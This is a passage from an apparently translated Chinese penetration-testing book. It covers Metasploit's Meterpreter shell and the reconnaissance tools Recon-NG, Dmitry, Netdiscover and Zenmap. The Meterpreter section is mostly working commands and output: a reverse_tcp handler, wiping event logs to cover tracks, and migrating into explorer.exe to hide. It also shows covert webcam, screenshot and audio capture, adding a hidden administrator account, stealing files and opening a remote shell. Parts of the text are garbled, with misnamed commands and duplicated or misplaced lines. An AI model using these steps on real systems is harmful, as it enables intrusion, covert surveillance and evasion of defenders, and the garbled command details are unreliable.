在设置好 `payload` 后，我们还需要设置选项。在许多漏洞中，我们还需要设置 `payload`。`Metasploit` 提供了许多不同的 `payload` 供使用。要查看它们，只需输入 `show payloads`：

（注：此处由于原文逻辑重复，翻译已根据上下文对齐）

- 7. 既然 `payload` 设置好，使用 `set` 命令设置：

```bash
msf exploit(ms08_067_netapi) > exploit
```

在这段关于 `Metasploit` 相当长的介绍中，我们学习了如何执行框架的一些基本功能，以便我们发现并利用漏洞。我们还简要讨论了载荷（`payload`）的使用以及必要的设置。

`Metasploit` 能够做很多事情；我们只是简要地过了一些较基础的核心功能。

再次，如果你在此时感到迷茫，请不要恐慌！我们稍后会更详细地介绍整个 `Meterpreter` 利用过程。

接下来，我们将讨论 `Meterpreter shell`，这是一个强大且有趣的界面，我们可以用它来操控我们成功利用的系统。

# 第 4 章 – Meterpreter Shell

### 资源

- `http://en.wikibooks.org/wiki/Metasploit/MeterpreterClient`

- `http://cyberarms.wordpress.com/2013/02/03/remotely-recording-speech-and-turning-into-searchable-text-with-metasploit-watson/`

### 简介

在成功利用漏洞后，`Meterpreter shell` 允许你结合完整的远程 `shell` 来执行许多不同的功能。

`Meterpreter` 用于在获得远程连接后操控系统，因此取决于你的目标；`Meterpreter shell` 通常比直接的远程终端 `shell` 更优。

`Meterpreter` 为我们提供了一系列命令和实用程序，可以极大辅助安全测试。例如，有命令可以提取密码哈希值并从系统中收集数据和设置。

`Meterpreter` 中还包含一些有趣的工具，例如，你可以打开用户的摄像头并拍摄快照，打开远程麦克风，甚至可以获取用户正在操作的桌面截图。

在本节中，我们将快速介绍 `Meterpreter shell` 及其部分功能。

## Meter Meterpreter 命令

让我们从一台被欺骗运行带有后门的程序开始（要查看如何创建规避反病毒软件的后门，请参见“Veil”章节）。执行后，后门程序连接到我们的 `Kali` 系统并创建了一个会话。然后我们自动进入活动会话，如下：

```
msf > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload = windows/meterpreter/reverse_tcp
msf exploit(handler) > set host 192.168.1.142
192.168.1.142
msf exploit(handler) > set lport 4000
lport = 4000
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.142:4000
[*] Starting the payload handler...
[*] Sending stage (77048 bytes) to 192.168.1.132
[*] Meterpreter session 1 opened (192.168.1.142:4000 -> 192.168.1.132:49176) at 2013-10-20 14:45:55 -0400
```

连接到会话后，我们将得到一个 `Meterpreter` 提示符：

```
meterpreter >
```

好的，让我们看看 `Meterpreter` 能做什么，让我们从使用帮助命令开始查看有什么

`meterpreter > help`

当我们这样做时，我们看到命令被分成了不同的部分。

命令有：

- 核心命令

- 文件系统命令

- 网络命令

- 系统命令

- 用户界面命令

- 摄像头命令

- 以及三个特权 `Priv` 命令

我们不会涵盖所有的命令，但将稍微深入查看其中几个。阅读所有命令以基本了解它们能做什么是一个好主意。

## 核心命令

| 命令 | 说明 |
|---|---|
| `?` | 帮助菜单 |
| `background` | 将当前会话 de-meterpreter 脚本放入后台 |
| `bgkill` | 杀死后台 meterpreter 脚本 |
| `bglist` | 列出后台脚本 |
| `bgrun` | 作为后台线程执行 meterpreter 脚本 |
| `channel` | 显示活动通道的信息 |
| `close` | 关闭通道 |
| `disable_unicode` | 禁用 unicode 字符串的编码 |
| `enable_unicode` | 启用 unicode 字符串的编码 |
| `exit` | 终止 meterpreter 会话 |
| `help` | 帮助菜单 |
| `info` | 显示后处理模块 `Post-module` 的信息 |
| `interact` | 与通道进行交互 |
| `ir` | 这里的脚本会话 |
| `load` | 载入一个或多个 meterpreter 扩展 |
| `migrate` | 将服务器迁移到另一个进程 |
| `quit` | 终止 meterpreter 会话 |
| `read` | 从通道读取数据 |
| `resource` | 运行存储在文件中的命令 |
| `run` | 执行 meterpreter 脚本或后处理模块 |
| `write` | 向通道写入数据 |

作为初级用户，你可能只会使用此列表中的 `background`, `help`, `load`, `migrate`, `run` 和 `exit`：

- `Background` - `background` 允许你将会话放入后台，这样你可以返回 `msf` 提示符或访问其他会话。

```
meterpreter > background
[*] exploit (handler) > 
msf exploit(handler) >
```

你只需使用 `session -i <session #>` 命令即可返回你的会话。

- `Load and Run` – 这些命令允许你在 `Meterpreter` 内部使用额外的模块和命令。

- `Exit` – 退出 `Meterpreter`。

## 文件系统命令

当你拥有 `Meterpreter shell` 时，基本上是在处理两个系统：本地和远程。文件系统命令允许你与这两者进行交互。基本上你可以使用标准的 `Linux` 命令来移动和使用文件系统。你如何区分本地系统和你所连接的远程系统呢？所有命令都认为在**远程**系统上执行。因此，为了列出远程系统的目录，只需使用 `ls` 命令：

```
meterpreter > ls
你变得越熟练，就越能列出: C:\Users\Fred\Desktop

Mode Size Last modified Name
40555/r-xr-xr-x  0  dir     2013-10-20 14:45:48 -0400
40777/r-xr-xr-x  0  dir     2013-08-16 09:14:33 -0400
10777/r-xr-rw 3250  fil     2013-10-11 18:49:44 -0400
10777/r-xr-rw 3226  fil     2013-10-20 14:43:36 -0400  Evil.bat
10866/r-xr-rw 282   dir     2013-09-25 02:44:44 -0400  Cute.bat
desktop.ini
```

如果我们在远程机器上创建一个名为 `test` 的目录，我们可以导航到它，然后列出内容：

```
meterpreter > mkdir test
Creating directory: cd test
meterpreter > cd test
meterpreter > ls
Listing: C:\Users\Fred\Desktop
Mode Size Last modified Name
40777/r-xr-xr-x  0  dir     2013-10-20 14:45:48 -0400
40555/-r-xr-xr-x  0  dir     2013-10-20 34:45 -0400
```

如果我们在远程机器上创建一个名为 `test` 的目录，我们可以进入它，然后列出内容。

你需要在本地文件系统中移动时，可以使用以下命令：

- `Getwld` & `lpwd` – 获取显示本地工作目录

- `Lcd` – 本地目录

所以如果我们想检查本地工作目录并进入我们的 `Kali` 目录，我们可以这样做：

```
meterpreter > lpwd
/root
meterpreter > cd Desktop
meterpreter > getwld
/root/Desktop
```

`Download` 允许从目标系统下载文件，相反，`upload` 允许你向远程系统发送文件。所以如果我们想上传文件，只需连接到你想发送的本地和远程目录，并文件名执行 `upload` 命令，如下所示：

```
meterpreter > cd Desktop
meterpreter > lpwd
/root
meterpreter > cd test
meterpreter > pwd
C:\Users\Fred\Desktop\test
meterpreter > upload Tools
[*] uploading  : Tools -> Tools
[*] uploaded  : Tools -> Tools
meterpreter > ls
Listing: C:\Users\Fred\Desktop\test
Mode Size Last modified Name
40777/rwxrwxr-  0  dir     2013-10-22 08:15:25 -0400
40555/-r-xr-xr-x  0  dir     2013-10-22 08:12:36 -0400
100666/rw-rw-rw--  0  file            2013-10-22  08:15:25 -0400  Tools
meterpreter > 
```

我们连接到了带有工具文件的 `Kali` 机器上的 `Desktop`。然后我们连接到目标上的 `test` 目录，并简单地使用 `upload` 命令传输文件。

`Download` 的方法相同，只需使用 `download` 和文件名从远程系统提取文件并存储在你的本地 `Kali` 机器上：

```
interpreter > download AccountInfo.txt
[*] downloading: AccountInfo.txt -> AccountInfo.txt
[*] downloaded : AccountInfo.txt -> AccountInfo.txt
```

现在让我们看看网络命令。

## 网络命令

这些命令允许你显示和操作基本的网络功能。

- `Arp` - 显示远程 MAC 地址到实际 IP 地址的列表。

- `Ifconfig` & `ipconfig` 都显示远程系统上的任何网络接口。

- `Netstat` - 显示活动网络连接列表。

- `Portfwd` 和 `route` 允许你进行一些高级路由攻击。虽然我们书中书中介绍这些，但使用这两个命令允许你利用已利用的机器进行跳板，或攻击目标网络或网络中的其他机器。

| 命令 | 说明 |
| :--- | :--- |
| `clears` | 清除事件日志 |
| `drop_token` | 放弃任何活跃的身份冒充令牌 |
| `execute` | 执行命令 |
| `getid` | 获取当前进程标识符 |
| `getpriv` | 尝试为当前进程启用所有权限 |
| `getuid` | 获取运行服务器的用户 |
| `kill` | 终止进程 |
| `ps` | 列出运行中的进程 |
| `reboot` | 重启远程计算机 |
| `reg` | 修改并与注册表交互 |
| `rev2shelf` | 在远程机器上执行 RevertToSIF |
| `shutdown` | 关闭远程计算机 |
| `steal_token` | 尝试从目标进程窃取身份冒充令牌 |
| `suspend` | 挂起或恢复进程列表 |
| `sysinfo` | 获取远程系统信息，如操作系统 |

**CLEAR** – 这个实用的小命令将尝试清除远程计算机上的日志。

我们想要擦除自己的痕迹并清除目标机器上的系统日志。如果我们查看 `Windows 7` 系统侧的日志，可以看到它充满了事件：



这些事件中可能包含我们做过的事情。因此我们可以在 `Kali` 系统上输入 `clears` 来远程清除日志。

```bash
> clears
[*] Wiping 1587 records from Application...
[*] Wiping 5148 records from System...
[*] Wiping 4151 records from Security...
```

应用程序（Application）、系统（System）和安全（Security）日志已被清空。如果我们再次查看安全日志，只显示了一条记录，“Log Clear”：



现在显然，对于任何分析日志的人来说，这都会非常显眼。但如果你删除了某些事件，你可以清除整个日志。

## GETPID & PS 命令

在使用 `Meterpreter` 时，你可能会经常地使用两个命令是 `getpid` 和 `ps`。

- `getpid` – 告诉你的 `shell` 运行的进程 ID

- `ps` – 列出远程系统上运行的所有进程

所以如果我输入 `getpid`，我会看到这个：

```bash
meterpreter > getpid
Current pid: 3824
```

这是我们的 `shell` 正在使用的进程 ID。如果我输入 `ps`，我就可以看到所有的进程：




如果我们向下查看列表寻找 PID 为 `3824` 的数字，我们会看到这个：

```
3824 3796 powershell.exe x86 1 WIN-LOANLOTTDQU\Fred
C:\Windows\System32\WindowsShell\v1.0\powershell.exe
```

这显示了我们的进程 ID `3824`。它还显示我们以用户“Fred”的身份在 `powershell.exe` 进程下运行。

当我想要从这个低级进程“迁移”到一个具有更高权限的进程时，这些信息就出现了。我们可以将 shell 从这个 PID 移动到一个具有更高权限的进程。

迁移还允许我们将 shell 合并并隐藏到另一个更常见的进程中，从本质上隐藏了我们的连接。`Explorer.exe` 是最常迁移到的目标进程之一。

只需找到你想使用的进程的 PID#（在我们系统上是 `1736`）并输入“`migrate <PID#>`”。

```bash
meterpreter > migrate 1736 > 1736...
[*] Migration from 3824 to 1736...
[*] Migration completed.
meterpreter > getpid
Current pid: 1736
meterpreter >
```

我们将在后面的部分讨论迁移以及其他 Meterpreter 命令。让我们来谈谈截图！

## 录制摄像头视频、截图和声音

当我以前听新闻时，我记得他们一直在说一种新的“高级持续性威胁”，它实际上允许攻击者打开你的摄像头甚至录制声音。我觉得这简直荒谬，因为你们已经可以使用 Metasploit 做到这一点。

### 摄像头视频

在 Metasploit shell 中输入“`run webcam -h`”显示帮助菜单。

```bash
meterpreter > run webcam -h
webcam -- view over session

OPTIONS:
-d <opt> 循环间隔（毫秒，默认 1000）
-f 只抓取单帧
-g 发送到 GUI 而不是文件
-h 帮助菜单
-i <opt> 使用的摄像头图像（默认：1）
-l <opt> 循环录制（默认）
-p <opt> 保存图像的路径（默认：当前工作目录）
-q <opt> JPEG 图像质量（默认 50）
-s <opt> 停止录制
```

然后输入“`run webcam`”并添加你想要的选项。这将远程显示摄像头。

```bash
meterpreter > run webcam -l
[*] Starting webcam 1: HP Webcam-101
[*] View stream at: ./webcam.htm
[*] Image saved to: ./webcam.jpg
^C[*] Stopping webcam
```

如果你使用“-f”选项，它将持续抓取快照直到你按下“Ctrl-C”。目标机器上唯一的提示是你的摄像头录制灯（如果有的话）亮了。除此之外，你无法判断有人正在远程查看你的摄像头。上面的摄像头截图是我某天得到的的一个真实图像。我不确定为什么猫必须坐在笔记本键盘上……

### 截图

你可以使用“`screenshot`”命令获取目标显示器上当前显示的任何快照：

```bash
meterpreter > screenshot
Screenshot saved to: /root/Desktop/S0UncN.jpeg
```

如果我们打开该文件，会看到这个：



好吧，由于系统被后门感染，看来我们的明星员工在工作时花时间玩游戏。

### 音频录制

录制声音类似，只需输入“`run sound_recorder -h`”查看选项，或者如果你想要获取30秒的音频片段，不带任何选项运行命令：

```bash
meterpreter > run sound_recorder
[*] Saving recorded audio to /root/.ms4/scripts/sound_recorder/LAPTOP_20131022,2739
[*] Recording a total of 03m
[+] Audio saved to: LAPTOP1.wav
```

你可以在 Kali 系统上打开保存的文件来听它：


## 运行脚本

本节将涵盖的最后一个主题是运行脚本。Meterpreter 有200多个可以运行的脚本，可以进一步扩展你的漏洞工具包。

我们实际上已经接触过这些了。我们使用了“`run`”命令来使用声音和摄像头脚本攻击。我们将花一点时间涵盖几个。

要查看所有可用脚本列表，只需输入“`run <tab><tab>`”：

```bash
meterpreter > run
Display all 213 possibilities
```

然后“`run`”你想尝试的脚本名称。这里有几个比较有趣的脚本：

### CHECKVM

有时当你获得远程 shell 时，你不确定自己是在虚拟机还是独立电脑上。可以使用此命令进行检查。

```bash
meterpreter > run checkvm
[*] Checking if target is a Virtual Machine
[+] This is a Virtual Machine
```

你可以看到它确定了我们的虚拟机。

### GETGUI

`Getgui` 是一个很不错的脚本，允许你在 Windows 机器上启用远程桌面（如果尚未启用）并创建一个远程桌面用户。

该用户被添加到远程桌面组和管理员组。如果你想在以后的日期连接回这台机器，这非常方便。

```bash
meterpreter > run getui-e to enable desktop:
> Windows Remote Desktop Configuration Meterpreter by Darkoporter
> Carlos Perez carlos_perez@darkoporter.com
> Enable Remote Desktop, enabling it ...
> Setting Terminal Services startup mode
> The Terminal Services service is not set to auto, changing it to ...
local if necessary
> For cleanup command: run multi_console_command -rc /root/.ms4/scripts/getgu1/clean.up 20131022.5019.rc
meterpreter >
```

只需再次运行程序并给它要使用的用户名和密码：

```bash
meterpreter > run getui -u EvilUser -p P##ssword
> Windows Remote Desktop Configuration Meterpreter by Darkoporter
> Carlos Perez carlos_perez@darkoporter.com
> Setting account for login
Adding User: EvilUser with Password: P##ssword
Hiding user from login screen
Adding User: EvilUser to local group 'Remote Desktop Users'
> > Adding User: EvilUser to local group 'Administrators'
> You can now login with the created user
```

现在我们只需要打开终端并运行 Kali 自带的“`rdesktop`”命令连接到 Windows 桌面：

```bash
root@Kali:~# rdesktop -u EvilUser -p - 192.168.198.132
Autoselected keyboard map en-us
Password: -p -
```

“-p -”开关告诉 `rdesktop` 提示输入密码。这更安全，因为你没有在网络上传输明文密码。

一旦登录，我们将在 Kali 机器上获得一个图形化的 Windows 桌面：

```

还有其他的脚本可以尝试关闭反病毒软件、禁用目标的防火墙、从 Firefox、ftp 程序等多个程序中获取取迹物和凭据，以及更多功能。

花些时间检查一下它们。

## 远程 Shell

最后，让我们看看如何获取真实的 `C:\` 提示符。一旦我们拥有了 Meterpreter，这非常简单。只需输入命令 `shell` 即可。

```
meterpreter > shell

Process 3044

Channel 1 created.

Microsoft Windows [Version 6.1.7601]

Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users\Fred\Desktop\>
```

搞定！我们现在可以运行任何需要的 DOS 命令。

## 玩模块 - 从远程 Shell 恢复被删除的文件

现在我们花一点时间聊一些稍微高级一点的内容。让我们使用内置的 Meterpreter 模块之一来恢复远程驱动器上已删除的文件。

`recovery_files` 脚本允许你恢复目标用户从其系统中删除的文件。这些文件可能非常多样，删除的文件可能包含取证和渗透测试领域都感兴趣的信息。

系统文件和日志、账户信息以及重要文档只是恢复内容中的一小部分。

为了准备这个示例，我简单地用我的 Windows 7 系统创建了一个虚假的“Accounts Passwords.txt”文件，并在 `E:` 盘上保存了 nmap 的“Discovery.pdf”手册副本。

然后我删除了这些文件：



### 使用模块

该模块要求你与要检查的目标建立打开会话。一旦成功建立远程会话，只需输入 `background` 临时退出会话回到 msf 提示符，并如下所示使用模块：

```
msf > use post/windows/gather/forensics/recovery_files

msf post(recovery_files) > show options

Module options (post/windows/gather/forensics/recovery_files):

Name            Current Setting Required Description

DRIVE           C:             yes 你想要从中恢复文件的驱动器。

FILES           no             要恢复的文件的 ID 或扩展名，用空格分隔。留空则列出所有删除的文件。

SESSION         yes            运行此模块的会话。

TIMEOUT         3600           搜索超时。如果为 @，模块将遍历整个 MFT。

msf post(recovery_files) > set drive E:

DRIVE => E:

msf post(recovery_files) > set SESSION 1

SESSION => 1

msf post(recovery_files) >
```

如截图所示，有几个设置需要完成。
如果你只想查看那里有什么文件，只需要像上面那样设置“Drive”和“Session”设置即可。

然后直接运行利用程序：

```
msf post(recovery_files) > run

[*] System Info - OS: Windows 7 (Build 7601, Service Pack 1)., Drive: E:

[*] MFT is made up of 1 data runs

[*] Searching deleted files in data run 1...

[*] Name: $0069X57.pdf ID: 1037786688

[*] Name: $00GC7Y7.txt ID: 1037797712

[*] Name: $0069X57.pdf ID: 1037838800

[*] Name: $00GC7Y7.txt ID: 1037844832

[+] MFT entries finished

[*] Post module execution completed

msf post(recovery_files) > _
```

利用程序运行并恢复了四个删除的文件，现在还有两个。如果你只想恢复 txt 文件，只需输入 `set FILES txt` 并再次运行利用程序：

```
msf post(recovery_files) > set FILES txt
FILES => txt
msf post(recovery_files) > run
[*] System Info - OS: Windows 7 (Build 7601, Service Pack 1)., Drive: E:
[*] MFT is made up of 1 data runs
[*] Searching deleted files in data run 1...
[*] Name: $0069X57.pdf ID: 1037786688
[*] Name: $00GC7Y7.txt ID: 1037797712
```

最后，我们看到了如何使用一个名为“Recovery_Files”的特殊 Meterpreter 模块从远程系统恢复被删除的文件。

一旦获得了带有 Meterpreter shell 的机器的远程访问权限，我们就可以与目标系统交互、对其进行操作，甚至从中获取视频。

但我们也可以使用 Meterpreter 绕过 Windows UAC 保护，并自动化提取用户密码哈希值甚至明文密码。我们将在接后的章节中讨论这些功能。

# 第3部分 - 信息收集与映射

## 第5章 – 侦察工具

### 资源

- Recon-NG Wiki 页面 - https://bitbucket.org/LaNMaSteR53/recon-ng/wiki/Home

### 简介

Kali Linux 中有多种工具可以辅助信息收集和侦察。当黑客攻击目标时，他们执行的正常阶段之一就是信息收集。他们想要尽可能多地了解你的网络及其目标的信息，以便让他们工作更轻松。

Maltego 是一个非常流行的工具，安全书籍和培训研讨会上会有很多介绍。它已经有了很深入的内容，我想我们应该看看 Kali 中包含的其他工具。

在本章中，我们将查看较新的工具之一 Recon-NG 以及 Kali 自带的几个工具。

## Recon-NG

Recon-NG 框架是一个强大的工具，允许你执行自动化的信息收集和网络侦察。把它想象成信息收集领域的 Metasploit。

Recon-NG 自动化了渗透测试初始过程中采取的许多步骤。它具有许多功能，允许你为社会工程攻击收集用户信息，为网络映射收集网络信息等。

你可以自动访问许多网站以收集有关你目标的被动信息，甚至主动探测目标本身以获取数据。

任何熟悉 Metasploit 的人都会感到很亲切，因为它的界面具有相同的观和感受。命令用法和函数非常相似。基本上，你可以使用 Recon-NG 收集目标信息，然后用 Metasploit 对其进行攻击。

## 使用 Recon-NG

启动 recon-ng，只需打开终端提示符并输入“`recon-ng`”：

```
rootkali:~ # recon-ng

recon-ng v1.41 Copyright (C) 2013, Tim Tomes (@LaNMaSteR53)

[65] Recon modules
[7] Discovery modules
[4] Reporting modules
[1] Experimental modules

recon-ng > _
```

输入“`help`”来显示命令列表：


```
recon-ng > help
Commands (type [help?]| <topic>):
back             退出当前提示符级别
banner           显示横幅
exit             退出当前提示符级别
help             显示此菜单
info             显示模块信息
keys             管理框架 API 密钥
load             加载指定的模块
query            查询数据库
record           将命令记录到资源文件中
reload           重加载所有模块
resource         从资源文件执行命令
run              不可用
search           搜索可用模块
set              设置全局选项
shell            执行 shell 命令
show             显示各种框架项
use              加载指定的模块
recon-ng > _
```

现在，像 Metasploit 一样，你可以输入“`show modules`”来显示可用模块列表：

```
recon-ng > show modules
Discovery
discovery/exploitable/http/dnn_fcklinkgallery
discovery/exploit/http/generic_restaurantmenu
discovery/exploit/http/webwiz_rte
discovery/info_disclosure/dns/cache_snop
discovery/info_disclosure/http/backup_finder
discovery/info_disclosure/http/google_ads
discovery/info_disclosure/http/interesting_files

Experimental
------
/experimental/rce

Recon
recon/contacts/enum/http/web/dev_diver
recon/contacts/enum/http/web/namechk
recon/contacts/enum/http/web/pwnlist
recon/contacts/gather/http/api/jsigraw/point_usage
```

某些模块是被被动的；它们从不触碰目标网络。而某些模块则直接探测甚至可以攻击你感兴趣的系统。

用于被动探测网络结构的一种策略是使用 Google 搜索引擎来列举站点子域名。你知道会有一个像“`some_target.com`”这样的主域名，但那里还有哪些子域名呢？

你可以使用“`site:`”和“`inurl:`”切换开关在 Google 上搜索子域名。然后切换你发现的子域名（`-inurl`），这样其他子域名就会出现。如果目标有很多子域名，手动执行这可能需要很长时间，并且需要大量输入。

Recon-NG 会自动为你完成此操作，并将发现的内容记录在数据库中。

只需使用“`recon/hosts/gather/http/web/google_site`”模块。然后输入“`show options`”查看该模块的要求。

```
recon-ng > use recon/hosts/gather/http/web/google_site
recon-ng [google_site] > show options
---------------------------------------------
Name             Current Value Req Description
DOMAIN             yes      target domain
recon-ng [google_site] >
```

像 Metasploit 一样，只需输入“`set domain [targetname]`”。然后输入“`run`”，模块就会执行，如下所示：

```
recon-ng [google_site] > set DOMAIN SomeDomainName.com
DOMAIN => SomeDomainName.com
recon-ng [google_site] > run
```

你将看到一个像下面模拟的屏幕：

如你所见，从下面的模拟图中可以看出，Recon-NG 正在列出子域名。这种被动探测不需要扫描目标。

输入“`back`”获取数据。

```
[+] 46 hosts found.
[*] 46 hosts found!
recon-ng [google_site] > back
recon-ng > |
```

```
[+] 46 hosts found.
[*] 46 hosts found!
recon-ng > |
```

然后再次“`show modules`”。

注意“Reporting”部分：

```
Reporting
------
reporting/csv_file
reporting/html
reporting/list
reporting/push
```

只需使用“`use reporting/csv_file`”来创建获取数据的报告。

```
recon-ng > use reporting/csv_file
recon-ng [csv_file] > run './workspaces/default/results.csv'
[+] 46 added to results.csv
```

所有文件位于 `/workspaces/default`。

## Recon-NG 总结

子域名枚举只是一个模块之一。还有许多其他。

Recon-NG 是 Kali 中包含的另一个实用工具。也可以从命令行提示符或菜单运行。

## Dmitry

Dmitry 是一个用于快速发现的工具。只需从菜单运行。

```
Demagmatic Information Gathering
"There be some magic going
Usage: dmitry [-winse] [-t 0-9] [-o]
-o 输出到 :host.txt
-i 对 IP 地址进行扫描
-w 对域名进行查询
-n 获取 Netcraft.com 信息
-s 对可能的子域名进行搜索
-e 对可能的电子邮件地址进行搜索
-p 执行 TCP 端口扫描
-f 从扫描端口读取横幅
-t 0-9 设置扫描端口时的秒数（默认：2）
```

需要传递 `-p` 标记。

## Netdiscover

```
Netdiscover 0.3-beta7 [主动/被动 ARP 侦察]
作者: Jaime Penalba [jpenalba@gmail.com]
Usage: netdiscover [-i device] [-r range] [-l file] [-p] [-s time] [-n node] [-c count] [-f] [-d] [-S] [-P] [-C]
-i device 扫描范围而不是自动扫描。192.168.0.0/24,/16
-r range 扫描特定范围
-l file 扫描给定文件中包含的范围列表
-p 被动模式：不发送任何内容，仅监听
-f 以广播发送 ARP 请求
-s time 每次请求之间的睡眠时间（微秒）
-n node 用于扫描的最后一个字节节（2 到 253）
-c count 每次 ARP 请求的发送次数（针对数据丢包的网络）
-d timeout 设置超时，建议用于自动审计
-g 忽略主配置文件以启用 autofast 和 fast 模式
-e 启用每次请求之间的睡眠时间（硬核模式）
-o 以适用于其他程序解析的格式打印结果
-P 可解析输出 (-P)，在扫描完成后继续监听
```

如果未启用 r、 `-l` 或 `-p`，netdiscover 将扫描常用地址。

Netdiscover 扫描网络以寻找设备并显示它们。

正在扫描：172.16.8.0/24    视图：唯一主机

捕获到 4 个 ARP/Req 数据包，来自 3 台主机。    总大小：240

| IP | 地址 MAC 地址 | 计数 | 长度 | MAC 厂商 |

|---|---|---|---|--|

| 192.168.198.2 | 00:50:56:f1:ac:5e | 02 | 120 | VMware, Inc. |

| 192.168.198.1 | 00:50:56:c8:00:08 | 01 | 060 | VMware, Inc. |

| 192.168.198.254 | 00:50:56:e6:77:37 | 01 | 060 | VMware, Inc. |

它还可以隐身“被动”模式运行，在该模式下它不发送任何数据，仅嗅探流量。

## Zenmap

Zenmap 基本上是广流行的 `nmap` 命令的图形版本。如果你不熟悉 `nmap`，那么 Zenmap 是一个非常好的入门点。

与之前的命令一样，Zenmap 可以从菜单或命令行启动。

启动后，你将看到以下屏幕：



只需填写目标 IP 地址，并从“配置”（Profile）下拉框中选择你想要执行的扫描类型。Zenmap 将在命令框中向你显示生成的 `nmap` 命令开关。然后只需点击“扫描”（Scan）按钮即可运行命令：

如上所示，`nmap` 命令状态显示在 Nmap 窗口中。可以通过点击其他标签页查看更多信息，例如“端口/主机”（Ports/Hosts）标签页：

| Nmap 输出 | 端口 / 主机 | 拓扑结构 | 主机详情 |

| 端口 | 协议 | 状态 | 服务 | 版本 |

| 53 | tcp | open | wrapped | | |

